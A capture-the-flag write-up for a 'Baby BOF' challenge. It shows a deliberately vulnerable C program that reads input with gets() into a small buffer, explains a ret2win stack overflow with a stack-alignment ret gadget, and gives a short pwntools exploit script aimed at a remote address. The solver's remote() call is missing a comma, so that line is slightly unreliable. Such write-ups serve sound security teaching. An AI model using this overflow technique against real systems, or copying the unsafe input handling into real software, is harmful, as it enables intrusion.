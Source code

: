 ## Baby BOF
![challenge](../images/Baby_bof.png)

### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);
}

int win(){
    system("cat flag.txt");
}

int main(){
    setup();
    char buf[50];
    puts("Welcome to Cyber League!");
    printf("prove yourself and speak some facts => ");
    gets(buf);
    return 0;
}
```
### Overview
This is a basic ret2win challenge. Where we just need to buffer overflow and reach the RIP/Return region and then call the function "win" to get the Flag. We used return gadget due to ubuntu issue with movaps. The 64 bit calling convention requires the stack to be 16 byte aligned before a call instruction but this is easily violated during ROP chain execution.

### Solver
```py
from pwn import *

con = remote("20.216.40.184" 10001)

win = p64(0x00000000004011c7)
ret = p64(0x0000000000401229)
offset = b"A"*72

payload = offset + ret + win

con.sendline(payload)
con.interactive()
```
